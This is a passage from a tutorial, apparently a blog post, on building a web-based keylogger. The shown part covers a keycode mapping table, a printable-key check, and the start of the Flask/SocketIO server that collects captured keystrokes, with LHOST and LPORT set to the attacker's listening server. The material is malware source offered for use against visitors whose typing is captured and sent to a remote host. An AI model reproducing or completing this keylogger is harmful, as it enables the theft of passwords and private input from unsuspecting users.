 	    ',' : '<',
	    '.' : '>',
	    '/' : '?',
	    '`' : '~',
	}

{% endhighlight %}

Finally, we add a function that checks to see if a keycode maps to a printable character.

{% highlight python %}

	def is_printable(ks):
	    return any([
	        ks == 8,
	        ks == 32,
	        ks == 46,
	        (ks >= 219 and ks <= 222),
	        (ks >= 186 and ks <= 191),
	        (ks >= 64 and ks <=  90),
	        (ks >= 48 and ks <=  59),
	    ])

{% endhighlight %}

The complete tables.py pretty long, but if you want to check out the whole thing it's included with the source code at the end of the tutorial.

# WebSockets backend

With our frontend and lookup tables complete, it's time to write the backend code for our keylogger's server component. Let's start by opening the following file.

	keylogger/run.py

We first add our import statements to the top of the file.

{% highlight python %}

	import logging
	import tables
	
	from flask import Flask, make_response, render_template, request
	from flask.ext.socketio import SocketIO, emit

{% endhighlight %}

We then set two global variables, __LHOST__ and __LPORT__, that are used to configure the script. The user should set LHOST to his or her server's fqdn or IP address, and LPORT to the port on which the keylogger server should be run.

{% highlight python %}

	LHOST = '192.168.1.90'
	LPORT = 80

{% endhighlight %}
